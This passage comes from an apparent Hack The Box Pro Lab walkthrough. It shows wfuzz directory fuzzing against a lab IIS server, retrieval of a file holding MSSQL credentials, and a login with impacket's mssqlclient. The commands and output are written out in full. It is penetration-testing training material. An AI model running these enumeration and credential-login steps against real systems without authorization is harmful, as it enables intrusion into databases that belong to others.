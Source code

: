 ```bash
┌──(n00b㉿v1c70r)-[~/HTB Prolabs/P.O.O/web enum/IIS_shortname_Scanner]
└─$ wfuzz -c -w co_fuzzing.txt -u http://10.13.38.11/dev/304c0c90fbc6520610abbf378e2339d1/db/poo_FUZZ.txt --hc 404
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.13.38.11/dev/304c0c90fbc6520610abbf378e2339d1/db/poo_FUZZ.txt
Total requests: 2351

=====================================================================
ID           Response   Lines    Word       Chars       Payload         
=====================================================================

000000097:   200        6 L      7 W        142 Ch      "connection"    

Total time: 87.84663
Processed Requests: 2351
Filtered Requests: 2350
Requests/sec.: 26.76255

```

Retrieving this file (from either `dev` directory) reveals connection details for MSSQL and the first flag, Recon:

```bash

┌──(n00b㉿v1c70r)-[~/HTB Prolabs/P.O.O/web enum/IIS_shortname_Scanner]
└─$ curl -s http://10.13.38.11/dev/304c0c90fbc6520610abbf378e2339d1/db/poo_connection.txt
SERVER=10.13.38.11
USERID=external_user
DBNAME=POO_PUBLIC
USERPWD=#p00Public3xt3rnalUs3r#

Flag : [REDACTED]
```

# Huh?!

## MSSQL Enumeration.

Using creds from the previous step, I can now connect to the MSSQL instance on TCP 1433

```bash
┌──(root㉿v1c70r)-[/home/…/HTB Prolabs/P.O.O/web enum/IIS_shortname_Scanner]
└─# python3 /usr/share/doc/python3-impacket/examples/mssqlclient.py external_user:#p00Public3xt3rnalUs3r#@10.13.38.11
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(COMPATIBILITY\POO_PUBLIC): Line 1: Changed database context to 'master'.
[*] INFO(COMPATIBILITY\POO_PUBLIC): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 88) 
[!] Press help for extra shell commands
SQL (external_user  external_user@master)> 
```

